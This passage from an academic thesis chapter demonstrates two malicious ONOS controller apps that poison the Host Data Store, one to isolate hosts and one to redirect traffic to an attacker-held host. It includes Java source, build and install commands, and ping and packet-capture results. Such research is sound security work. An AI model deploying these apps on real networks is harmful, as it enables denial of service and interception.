
\includegraphics[width=1.0\textwidth]{resources/Chapter-2/cap1.png}
\centering
\end{figure}

The Figure 2.6 shows how the data-plane is composed. The first host (shown with a circle) is called h1 and has IP address 10.0.0.1. There are other three hosts with sequential IP addresses. All the hosts are connected to a single switch and as the figure shows each switch is connected to another one so each part of the network is fully reachable. 
\medskip

The malicious application is developed knowing how the network is composed and which are the peculiar characteristics: how many and which hosts are present in the network, their IP addresses and other information. However, nothing is stopping the attacker to implement a reconnaissance phase before the actual malicious payload is executed. Moreover, since in this case the malicious application has direct access to the Host Data Store, gather information about the network is not a problem. 

In this code snippet (after the package definition and all required imports), in the first line there is the Component definition. This is an OSGi declaration to specify that as soon as the OSGi bundle requirements are met the component must be activated. Then we have the class and the logger definition. In line 53 there is another annotation telling to the OSGi engine that the imported resource defined in the next line is mandatory. This means that only after the moment  CoreService becomes available, the class MalHostTracking can be used. Note that CoreService is not the only mandatory object, but the snippet is trimmed for brevity.
\begin{lstlisting}[language=java,firstnumber=48]
@Component(immediate = true)
public class MalHostTracking {

    private final Logger log = LoggerFactory.getLogger(getClass());

    @Reference(cardinality = ReferenceCardinality.MANDATORY)
    protected CoreService coreService;
    ...
\end{lstlisting}

In the following code snippets the activation and deactivation methods are defined. The annotations @Activate and @Deactivate above the methods tell to the OSGi engine which methods are used to activate and deactivate the application. These are the methods used when in the ONOS CLI console the operator executes commands like \textbf{app activate *} or \textbf{app deactivate *}.
\begin{lstlisting}[language=java,firstnumber=82]
    @Activate
    protected void activate() {
        coreService.registerApplication("org.edoardottt.malhosttracking.app")
        editHostStore();
        log.info("Started malhosttracking App!");
    }
\end{lstlisting}

\begin{lstlisting}[language=java,firstnumber=91]
    @Deactivate
    protected void deactivate() {
        log.info("Stopped malhosttracking App!");
    }
\end{lstlisting}

This private method is used to retrieve the locations of a specific host. A location is just an interface where the host is connected to. Multiple locations are accepted (represented as an array) because an host can be connected to multiple interfaces. However, when a flow rule must be installed only the first one is used. The method takes as input an host ID and returns as output a set of HostLocation objects.
\begin{lstlisting}[language=java,firstnumber=139]
    private Set<HostLocation> getLocations(HostId hID) {
        Host h = hostService.getHost(hID);
        Set<HostLocation> locations = h.locations();
        return locations;
    }
\end{lstlisting}

The following private method is used to get a specific Host object from all the available ones. In particular an integer is taken as input and using the HostService API a complete list of hosts present in the network is retrieved, then the integer is used as index for the array and the Host object having the inputted index is returned. Notice that in this example the network is known, otherwise a check on the array index should be done (in order to avoid exceptions).  
\begin{lstlisting}[language=java,firstnumber=165]
    private Host getHost(int i) {
        Iterable<Host> hosts = hostService.getHosts();
        List<Host> hostList = new ArrayList<Host>();
        hosts.forEach(hostList::add);
        Host randomHost = hostList.get(i);

        return randomHost;
    }
\end{lstlisting}

The private method \textbf{editHostStore()} is the actual malicious code. The selected victim hosts are the first and the third ones, respectively h1 and h3. Once obtained their location arrays using the private method \textbf{getLocations()}, the locations are swapped: in the locations array of host h1 there will be the location of host h3, while in the locations array of h3 there will be the location of h1. This is achieved by firstly adding the new location to the arrays and then removing the old ones, this is needed because otherwise if the ONOS controller notices that there is an host in the Host Data store without a location, it will completely removes the host from the Host Data Store.
\begin{lstlisting}[language=java,firstnumber=98]
private void editHostStore() {
        HostId h1 = getHost(0).id();
        HostId h3 = getHost(2).id();
        log.info("Malicious Host Tracking App: Selected host {} and host {}", h1, h3);
        Set<HostLocation> locationsH1 = getLocations(h1);
        Set<HostLocation> locationsH3 = getLocations(h3);
        log.info("Malicious Host Tracking App: Locations {} and {}", locationsH1, locationsH3);
        HostLocation newLocationH1 = locationsH3.iterator().next();
        HostLocation newLocationH3 = locationsH1.iterator().next();
        hostStore.appendLocation(h1, newLocationH1);
        hostStore.appendLocation(h3, newLocationH3);
        log.info("Malicious Host Tracking App: Locations {} and {}", getLocations(h1), getLocations(h3));
        hostStore.removeLocation(h1, newLocationH3);
        hostStore.removeLocation(h3, newLocationH1);
        log.info("Malicious Host Tracking App: Locations successfully poisoned: {} and {}", getLocations(h1), getLocations(h3));
    }
\end{lstlisting}

Once successfully compiled the application with the following command and obtained the resulting .oar file,
\begin{lstlisting}[language=bash]
$> mvn package -DskipTests
\end{lstlisting}

it's possible to install and activate the malicious application using the helper utility provided by ONOS maintainers.
\begin{lstlisting}[language=bash]
$> ./tools/package/runtime/bin/onos-app localhost install! onos-malhosttracking-2.0.0-SNAPSHOT.oar
\end{lstlisting}

Before activating the malicious application a pingall test was performed and the following is the output:
\begin{lstlisting}[language=bash]
mininet> pingall
*** Ping: testing ping reachability
h1 -> h2 h3 h4
h2 -> h1 h3 h4
h3 -> h2 h3 h4
h4 -> h1 h2 h3
*** Results: 0% dropped (12/12 received)
\end{lstlisting}

It's clear that every host can reach any other host in the network. Once the malicious application is activated another pingall test was performed and this is the output:
\begin{lstlisting}[language=bash]
mininet> pingall
*** Ping: testing ping reachability
h1 -> h2 X h4
h2 -> h1 X h4
h3 -> h2 X h4
h4 -> h1 h2 h3
*** Results: 25% dropped (9/12 received)
\end{lstlisting}

This is what is happened:
\begin{itemize}
    \item When H1 tries to ping H2 (so the exact first ICMP request), it actually sends the ICMP echo packet. The HostLocationProvider application is active and due to the fact that its main goal is to fix locations array, seeing a packet with the IP address 10.0.0.1 coming from the old H1 location, it writes back the right location of H1 in the Host Data Store.
    \item Since H1's location array went back to the correct value, it can ping normally H2 and H4, but not H3 because the reactive forwarding app is installing flow rules for the wrong location. In particular since the location of H3 is the real location of H1, the packets will never leave the switch.
    \item H3 will be connected again to the network when it sends a packet containing its IP or MAC address (IP / ARP) since HostLocationProvider will fix its location array (as already done for H1) bringing the network back to normal.
    \item When H4 pings all the other hosts in the network, the location arrays are back to the original values and both H1 and H3 can be reached since the packets are routed correctly.
\end{itemize}
%   - explain that an host can be blind if not active in this scenario

It's important to note that in this scenario the affected hosts went back "live" just because they were actively sending packets in the network. Consider the scenario where the victim hosts H1 and H3 are only listening for incoming packets or they will send data only after received a certain message. They will never receive incoming packets as any packets destined for them will go to the wrong locations and so they will be completely isolated in the network. If instead as in this case HostLocationProvider is active, it will scan all the packets in the network. When a packet having a certain IP (or MAC) address is coming from a certain interface, that application checks if in the Host Data Store there is an host having that address with that location; if not, HostLocationProvider will add the missing information. Using this environment it's not possible to deactivate HostLocationProvider app because it's a required dependency for the Reactive Forwarding app, and so also that application will be automatically deactivated as well. In an environment where org.onosproject.fwd is not used, but the forwarding or routing logic is in charge on another application then doesn't depend on HostLocationProvider, this attack can completely isolate all the hosts in the network.


\subsection{Impersonation Host Tracking}
In the previous attack the affected security property of the CIA Triad was Availability. In fact, victim hosts were not reachable by any other host in the network unless they actively sends packets. It's possible to create another attack scenario in which the affected security property is Confidentiality. In this environment we still have an host tracking application (different from the previous one), the Reactive Forwarding (org.onosproject.fwd) app and a single ONOS controller. The data-plane is chosen so that it's easier to show the affected components, but it's possible to reproduce the attack using any network topology.

For the ONOS deploy the steps are exactly the same as the previous attack, so there will be installed 8 apps excluding the malicious one. For the data-plane, it's not possible to instruct Mininet to build a complex virtualized network only using the Command line, so also the Python APIs are needed.
\begin{figure}[h]
\caption{Impersonation Host Tracking CAP attack - data-plane}
\label{fig:cap2-dataplane}

\includegraphics[width=1.0\textwidth]{resources/Chapter-2/cap21.png}
\centering
\end{figure}
The figure 2.7 shows the data-plane used in this scenario: we still have four hosts but we only have two switches. The IP addresses are still sequential and so we'll have the same hosts names and IP addresses pairs (H1 with 10.0.0.1 and so on). H1 is the only host connected to the first switch, while all the remaining hosts (H2, H3 and H4) are connected to the second switch.
\medskip

In order to build this virtualized network, the file impersonation.py was used. Line 5 defines the only import needed for this topology. Middle-level APIs are used (notice addSwitch, addHost and addLink methods of self object that is the Mininet class) because there's no need to have a low-level control over the network devices. Inside the build() method, in line 10 it's created and added to the network the first switch (named s1), then in line 11 the host h1 is created and connected to the switch s1 in the next line. Lines 1 and 14 defines the creation of the second switch (named s2) and the connection between the two switches. In line 15 a range loop is used to add a new host and connect that host to the second switch for every iteration. In this case the number of iterations is hardcoded because there's no need to parametrize the loop, but it's a good practice when many hosts must be connected to a single switch. The last line defines a dictionary called "topos" containing all the topology reusable templates defined in the file. Mininet uses this dictionary to create networks from pre-defined topologies.
\begin{lstlisting}[language=python,firstnumber=5]
from mininet.topo import Topo

class ImpersonationTopo( Topo ):

    def build( self ):
        switch1 = self.addSwitch('s1')
        h1 = self.addHost('h1')
        self.addLink(switch1, h1)
        switch2 = self.addSwitch('s2')
        self.addLink(switch1, switch2)
        for h in range(1, 4):
            host = self.addHost('h%s' % (h + 1))
            self.addLink(host, switch2)


topos = { 'impersonation': ( lambda: ImpersonationTopo() ) }
\end{lstlisting}

Regarding the malicious application source code, the class definition (named ImpersonationHostTracking), logger and references are exactly the same as the previous one. Only the \textbf{editHostStore()} method changes. The logic is to get all the switch objects available using the DeviceService, then retrieve all the host objects connected to the second switch. From line 106 until 115 the victim hosts are added to a list checking that H2 is not included. In line 116 the location of victim hosts is substituted with the location of host H2.
\begin{lstlisting}[language=java,firstnumber=98]
    private void editHostStore() {
        Iterable<Device> devices = deviceService.getDevices();
        List<Device> deviceList = new ArrayList<Device>();
        devices.forEach(deviceList::add);
        log.info("Impersonation Host Tracking App: Devices {}", deviceList);
        Device s2 = deviceList.get(1);
        Set<Host> hosts = hostStore.getConnectedHosts(s2.id());
        log.info("Impersonation Host Tracking App: Hosts {}", hosts.toString());
        List<Host> hostsArray = new ArrayList<>(hosts);
        List<Host> victims = new ArrayList<>();
        Host attacker = hostsArray.get(0);
        log.info("Impersonation Host Tracking App: Attacker {}", attacker.toString());
        for (Host h : hostsArray) {
            if (!h.equals(attacker)) {
                victims.add(h);
            }
        }
        log.info("Impersonation Host Tracking App: Victims {}", victims.toString());
        changeLocation(getLocations(attacker.id()).iterator().next(), victims);
        for (Host h : victims) {
            log.info("Impersonation Host Tracking App: Victim {} > new Locations {}", h.id(), getLocations(h.id()));
        }
    }
\end{lstlisting}

The previous method uses the following private method to change the locations. Like in the previous attack firstly the location of H2 is added to the victim hosts' locations array, then the old ones are deleted from the arrays.
\begin{lstlisting}[language=java,firstnumber=123]
    private void changeLocation(HostLocation attacker, List<Host> victims) {
        for (Host h : victims) {
            log.info("Impersonation Host Tracking App: Targeting host {}", h);
            Set<HostLocation> oldLocation = getLocations(h.id());
            log.info("Impersonation Host Tracking App: Victim Locations {}", oldLocation);
            hostStore.appendLocation(h.id(), attacker);
            log.info("Impersonation Host Tracking App: Victim Locations {}", getLocations(h.id()));
            hostStore.removeLocation(h.id(), oldLocation.iterator().next());
            log.info("Impersonation Host Tracking App: Victim Locations {}", getLocations(h.id()));
        }
    }
\end{lstlisting}

Before proceeding with the attack, a pingall test is performed in order to check that hosts are effectively connected and everything is working as intended.
\begin{lstlisting}[language=bash]
mininet> pingall
*** Ping: testing ping reachbility
h1 -> h2 h3 h4
h2 -> h1 h3 h4
h3 -> h2 h3 h4
h4 -> h1 h2 h3
*** Results: 0% dropped (12/12 received)
\end{lstlisting}

The malicious application is then compiled and installed using the same commands used in the previous attack. As soon as the malicious application is activated, the attack is performed and the Host Data Store is poisoned. The test is performed in this way: first of all, we start listening on the host H2 for incoming packets
\begin{lstlisting}[language=bash]
h2 tcpdump > impersonation-h2.pcap &
\end{lstlisting}

and on host H4 as well:
\begin{lstlisting}[language=bash]
h4 tcpdump > impersonation-h4.pcap &
\end{lstlisting}

then H1 starts pinging the host H4
\begin{lstlisting}[language=bash]
h1 ping h4
\end{lstlisting}

The Figure 2.8 shows how the attack is performed. The host H1 sends ICMP echo packets directed to the host H4, but since the location of the hosts H3 and H4 is set to the interface where H2 is connected the packets will be routed to the H2's location interface.
\begin{figure}[h]
\caption{Impersonation Host Tracking CAP attack - Ping test}
\label{fig:cap2-ping}

\includegraphics[width=1.0\textwidth]{resources/Chapter-2/cap22.png}
\centering
\end{figure}

Reading the file impersonation-h4.pcap we can observe that H4 never gets the ICMP echo requests, while in the file impersonation-h2.pcap they are present.
\begin{lstlisting}[language=bash]
02:01:14.548201 IP 10.0.0.1 > 10.0.0.4: ICMP echo request, id 1114, seq 1, length 64
02:01:14.697044 LLDP, length 125
02:01:14.697149 02:eb:69:28:3b:3a (oui Unknown) > Broadcast, ethertype Unknown (0x8942), length 139: 
...
02:01:15.568491 IP 10.0.0.1 > 10.0.0.4: ICMP echo request, id 1114, seq 2, length 64
02:01:16.582898 IP 10.0.0.1 > 10.0.0.4: ICMP echo request, id 1114, seq 3, length 64
02:01:17.598314 IP 10.0.0.1 > 10.0.0.4: ICMP echo request, id 1114, seq 4, length 64
02:01:18.690867 IP 10.0.0.1 > 10.0.0.4: ICMP echo request, id 1114, seq 5, length 64
02:01:19.585316 ARP, Request who-has 10.0.0.4 tell 10.0.0.1, length 28
02:01:19.710663 IP 10.0.0.1 > 10.0.0.4: ICMP echo request, id 1114, seq 6, length 64
02:01:20.613187 ARP, Request who-has 10.0.0.4 tell 10.0.0.1, length 28
02:01:20.738416 IP 10.0.0.1 > 10.0.0.4: ICMP echo request, id 1114, seq 7, length 64
...
\end{lstlisting}

This test shows that the attack correctly succeeded. The confidentiality of the packets sent by host H1 directed to the host H4 are instead routed to the host H2 and so the confidentiality of data is broken. It's important to note that host H2 must be under the attacker's control in order to read confidential data (physically under the attacker's possession or attacked and subsequently taken control). The impact of the attack can be worse if the attacker poses as the victim host H4 and replies to incoming messages. In this case it should reply with ICMP echo reply packets changing the IP address to that of the victim (10.0.0.4).


\clearpage